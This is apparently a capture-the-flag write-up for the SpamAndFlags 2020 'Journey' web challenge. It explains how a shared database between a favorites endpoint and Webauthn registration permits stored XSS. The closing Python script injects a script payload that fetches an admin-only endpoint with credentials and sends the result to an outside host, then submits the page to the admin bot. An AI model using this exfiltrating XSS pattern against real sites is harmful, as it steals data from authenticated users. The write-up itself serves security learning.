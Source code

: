 # Journey: Chapter I (web, 278+16 pts, 10 solved)

To quote the source of `admin.html`,
```html
Your flag is: <span id="flag" style="font-weight: bold"></span></br>
<!-- ... -->
jsonReq('/get_admin').then(data => { console.log(data); $("#flag").text(data.flag); // ...
```

In the server source, we see
```javascript
app.get('/get_admin', (req, res) => req.session.isAdmin ? res.send({ flag: process.env.FLAG }) : res.send({ err: 'you are not an admin' }))
app.get('/admin_login', (req, res) => { 
    if (crypto.createHash("sha256").update(req.query.pass).digest("hex") === "03d8cdb4ca4edf3f1a1f85d54ebda0bd456b9a7d68029c8fe27ed1cdd7a4e2f3") {
        req.session.isAdmin = true
        res.redirect('/admin.html')
    }
    else
        res.send({ err: 'incorrect password' })
})
```
This means that we either need a way to change arbitrary things in the session,
or have the admin execute some JavaScript on our behalf. For a moment, we might
contemplate this part of the code:
```javascript
app.use(session({ secret: 'keyboard cat', saveUninitialized: true, resave: false, cookie: { maxAge: 48 * 60 * 60 * 1000 /* 48 hours */ } }))
```
... but a quick look at the documentation of `express-session` shows that
the session contents are stored server-side and the secret is only used to
sign the session ID (which itself is, if I'm reading the code correctly,
24 cryptorandom bytes).

Thus, it seems that XSS is the goal for this part of the challenge.

The problem stems from here:
```javascript
const db = new LevelAdapter('userdb');
const webauthn = new Webauthn({ origin: ORIGIN, store: db, rpName: 'SpamAndFlags CTF 2020 - Journey challenge' })
app.use('/webauthn', webauthn.initialize())
// ...
app.get('/favorites', async function (req, res) {
    const { favId, type } = req.query
    const obj = await db.get(`fav_${favId}`)
    if (obj && type in obj)
        res.send(obj[type])
    else
        res.send({ err: 'not found' })
});
```
The share-your-favorites feature shares the database with Webauthn. Upon a quick
inspection, we see that the latter uses usernames as the database keys:
```javascript
const user = {
  id: base64url(crypto.randomBytes(32)),
  [usernameField]: username,
}

Object.entries(this.config.userFields).forEach(([bodyKey, dbKey]) => {
  user[dbKey] = req.body[bodyKey]
})

await this.store.put(username, user)
```

What's this `userFields` thing? No such key was passed to the Webauthn constructor,
so the default will be used: `['name', 'displayName']`. This means that, if we hit
the `/webauthn/register` endpoint with `name` starting with `fav_`, we can make
the `/favorites` endpoint operate over an object we control:

```python
from random import randint
import requests as rq

URL = "http://journey.ctf.spamandhex.com"
ID = 'pwnujemy' + str(randint(0, 10**9))

payload = '<script>fetch("/get_admin", {method:"GET",credentials:"include"}).then(response => response.text()).then(flag => window.location="https://jakub.kadziolka.net/1337/cat.jpg?"+flag);</script>'

challenge = rq.post(URL+"/webauthn/register",
    json={
        'name': 'fav_' + ID,
        'displayName': payload
    }).json()

report = rq.get(URL+"/report",
    params={
        'url': URL+"/favorites?type=displayName&favId="+ID,
    })
```
